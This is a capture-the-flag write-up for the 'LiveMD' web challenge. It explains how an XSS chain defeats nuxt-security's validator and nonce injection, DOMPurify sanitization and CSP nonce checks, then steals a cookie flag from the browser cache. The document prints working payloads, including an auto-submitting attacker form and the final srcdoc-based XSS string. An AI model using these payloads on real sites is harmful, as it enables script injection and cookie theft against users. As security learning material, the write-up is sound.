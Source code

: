 # LiveMD

* Category: Web
* Score: 500/500
* Solves: 0

## Description

A simple and secure markdown editor to preview markdown in real-time.

## Overview

The target is to find XSS in this markdown editor and steal the flag from the cookie.

## Solution

One of the first thing to notice is that putting HTML in the `markdown` query parameter would result in 400 Bad Request. e.g. `?markdown=<script>alert(1)</script>`

The reason this is happening is due to the [XSS Validator](https://nuxt-security.vercel.app/middleware/xss-validator) middleware provided by [nuxt-security](https://github.com/nuxt-modules/security), which is enabled by default. However, its [implementation](https://github.com/nuxt-modules/security/blob/70cd67a4690b53e9167c210e3e020faed901355d/src/runtime/server/middleware/xssValidator.ts#L27-L34) is far from perfect:

```typescript
const valueToFilter =
    event.node.req.method === 'GET'
    ? getQuery(event)
    : event.node.req.headers['content-type']?.includes(
        'multipart/form-data'
        )
    ? await readMultipartFormData(event)
    : await readBody(event)
```

It does not filter the query parameters if the request is not a GET request. So a simple bypass is to use POST request instead of GET request but still put the payload in the query parameter.

To do so, host this html on attack's server:

```html
<form method="post" id="f" target="tab">
    <button>Go</button>
</form>
<script>
    markdown = 'x<script>alert(1)<\/script>'
    f.action = 'http://localhost:3000/?' + new URLSearchParams({ markdown })
    f.submit()
    setTimeout(() => open('http://localhost:3000/print', 'tab'), 1000)
</script>
```

Of course the alert will not work because the html also have to go through DOMPurify's sanitization (unless you can drop a DOMPurify 0day :P). Let just ignore it first by disabling the sanitization locally first by changing `purify.ts` to:

```javascript
export const sanitize = (html: string) => html
```

Then try to view the source of the `/print` page, you will see a very interesting thing:

```html
<p>x<script nonce="cYuXsFEgiRBMrYMW2Cs2lEwt" nonce="cYuXsFEgiRBMrYMW2Cs2lEwt">alert(1)</script></p>
```

Apparently, the `nonce` got added to the script tag twice somewhere in the server-side rendering process. This *feature* also is also provided by nuxt-security module mentioned before, which is [implemented here](https://github.com/nuxt-modules/security/blob/70cd67a4690b53e9167c210e3e020faed901355d/src/runtime/nitro/plugins/40-cspSsrNonce.ts#L53-L73):

```javascript
for (const section of sections) {
    html[section] = html[section].map((element) => {
        // Skip non-string elements
        if (typeof element !== 'string') {
            return element;
        }
        // Add nonce to all link tags
        element = element.replace(LINK_RE, (match, rest) => {
            return `<link nonce="${nonce}"` + rest
        })
        // Add nonce to all script tags
        element = element.replace(SCRIPT_RE, (match, rest) => {
            return `<script nonce="${nonce}"` + rest
        })
        // Add nonce to all style tags
        element = element.replace(STYLE_RE, (match, rest) => {
            return `<style nonce="${nonce}"` + rest
        })
        return element
    })
}
```

It literally use string replacement to add the `nonce` attribute to the script tag, which can be really bad if `<script>` appear in the attribute context. This is exactly the case where DOMPurify [warn you against](https://github.com/cure53/DOMPurify#is-there-any-foot-gun-potential).

> [You can ignore this part] And the reason that `nonce` is added twice comes from the use of server component (`print.server.vue` implies it), which is implemented as island, which means the rendered html will go through `render:html` hook twice.

So if we can get `<script>` to appear in attribute, it is possible to break the effect of sanitization and get arbitrary HTML in HTML context. To do so, you have to bypass this simple filter in `purify.ts`:

```javascript
purify.addHook('uponSanitizeAttribute', (currentNode, event, config) => {
    event.keepAttr = false
    try {
        if (event.attrName === 'src' || event.attrName === 'href') {
            if (URL.canParse(event.attrValue)) {
                // absolute URL
                event.attrValue = new URL(event.attrValue).href
            } else {
                // relative URL
                const u = new URL(event.attrValue, import.meta.server ? 'http://localhost' : document.baseURI)
                event.attrValue = u.pathname + u.search + u.hash
            }
            event.keepAttr = true
        }
    } catch {}
})
```

which only allows `src` and `href` attribute to have valid absolute/relative URL. And the value also have to go thorugh `URL` constructor, which protect against simple attempts like `<a href="http://example.com/?<script>1</script>">link</a>`.

Data url is a good candidate to prevent `<` and `>` from being encoded by `URL`, but it will be blocked by DOMPurify afterward. But if you just change it to `<a href="data2:<script>123</script>">link</a>`, then it works magically. (note: there must be no `//` after `:`)

The output would be:

```html
<a href="data2:<script nonce="/iECgPp28V0jFiPdhkQm+KRw" nonce="/iECgPp28V0jFiPdhkQm+KRw">123</script>
```

The reason why this works is because it [make](https://url.spec.whatwg.org/#scheme-state) URL parser to enter [opaque path state](https://url.spec.whatwg.org/#cannot-be-a-base-url-path-state), which does not encode characters like `<` and `>`.

So the `123` would be in HTML context, so a payload like `<a href="data2:<script><script>alert(origin)</script>">link</a>` should surely work right? Because CSP here allows nonce and our script tag would have nonce added automatically by nuxt-security. But actually using it still result in CSP error `Refused to execute inline script because it violates the following Content Security Policy directive: ...` despite the rendered HTML is:

```html
<a href="data2:<script nonce="B83NF1JLVW7i8vSdMRTRWcg1" nonce="B83NF1JLVW7i8vSdMRTRWcg1"><script nonce="B83NF1JLVW7i8vSdMRTRWcg1" nonce="B83NF1JLVW7i8vSdMRTRWcg1">alert(origin)</script>">link</a>
```

The reason this is not working is because CSP have an algorithm to determine whether an element is [nonceable](https://www.w3.org/TR/CSP3/#is-element-nonceable), which checks whether the element have attributes with `<script` or `<style` or **duplicate attributes** to prevent dangling markup injection. This algorithm is implemented by Chromium [here](https://source.chromium.org/chromium/chromium/src/+/main:third_party/blink/renderer/core/frame/csp/content_security_policy.cc;l=216-255;drc=98be4ecad4b81e303412a33e7413d2a024f759ae).

So we have to find a way to make our target script tag to have only one nonce attribute in order to have XSS. My idea to use make it output a HTML like this:

```html
<script somehow_put_an_double_quote_here_like_this:"<link nonce="aaa" nonce="aaa">alert(origin)</script>
```

This way, the first nonce would be parsed as an attribute value so there will be no duplicate nonce attribute. I also specifically use `link` tag to inject nonce because the nonceable algorithm does not check for it.

However, the `somehow_put_an_double_quote_here_like_this` is entirely not trivial because the nonce-injecting nitro plugin always put the nonce attribute as the first attribute of `<script>` tag. My idea here is to encode `<` as `&lt;` and put it in `srcdoc` to prevent the string replacement from adding the nonce attribute.

Constructing a correct payload for this require a lot of trial and error so I can't really explain how I end up with this payload:

```html
<div src="data2:<script><iframe useless='">' srcdoc='&lt;script <a href="data2:<link>"></a>>";alert(origin);&lt;/script>'</div>
```

But anyway, this payload will finally pop an alert so we have XSS now, so the final step is to steal the flag from cookie. But..., the flag is initially stored in the `markdown` cookie initially, and accessing `/?markdown=...` would override it, so the flag is already gone by the time we have XSS.

The trick here is actually very simple, since `/print` route is server-side rendered, if we accessed it first and have it cached in the browser. We can still access the flag from browser cache with fetch option `cache: 'only-if-cached'`.

The final exploit can be found [here](./exp.html).
